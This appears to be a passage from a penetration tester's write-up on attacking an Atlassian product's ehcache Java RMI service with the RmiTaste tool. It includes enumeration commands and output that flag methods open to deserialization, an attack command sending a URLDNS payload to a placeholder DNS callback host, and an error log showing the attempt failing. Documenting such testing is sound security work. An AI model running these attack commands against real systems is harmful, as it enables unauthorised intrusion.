 ```
...
```

The examples indicated this was missing the target library. I sourced the appropriate library from the install ("ehcache-2.10.2-atlassian-18.jar") into the Rmitaste libs_attack dir, and re-ran the enum, which dumped out the same list with all the object methods and their accepted types included.

```
$ java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste enum -t 192.168.200.136 -p 40001
Connected to RMI registry on 192.168.200.136:40001
..

com.atlassian.gadgets.renderer.internal.cache.parsedDocuments [object] [null] 
	 extends net.sf.ehcache.distribution.RMICachePeer_Stub [class]
		getGuid(); [method]
		getUrl(); [method]
		getQuiet(java.io.Serializable param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		removeAll(); [method]
		class$(java.lang.String param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getName(); [method]
		getElements(java.util.List param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getUrlBase(); [method]
		getKeys(); [method]
		send(java.util.List param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		remove(java.io.Serializable param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		put(net.sf.ehcache.Element param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]

....

```

A fairly promising message "may be vulnerable to Java Deserialization!" appears. You can see these accept non-primitive types such as net.sf.ehcache.Element, which should be exploitable, as per the [mogwailabs blog post](https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/).

I then ran the RMITaste tool with the `attack` command specifying one of the discovered objects and methods using the URLDNS payload, which simply performs a DNS lookup and works without any vulnerable JARs on the classpath. 

```
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -c 'http://<DNSHOST>' -g URLDNS -m "com.atlassian.gadgets.renderer.internal.cache.gadgetSpecs:net.sf.ehcache.distribution.RMICachePeer_Stub:getQuiet"  -t 192.168.200.136 -p 40001
```

The output looked it worked, however no DNS lookup occurred and the logfile showed a warning:
```
28/07/2021 11:52:51.990 - [m0.rmitaste.rmi.exploit.Attack.invokeMethod] - [WARNING] - An error occurred when calling getQuiet on com.atlassian.gadgets.renderer.internal.cache.gadgetSpecs. java.lang.ClassCastException: net.sf.ehcache.distribution.RMICachePeer_Stub cannot be cast to java.lang.reflect.Proxy
```
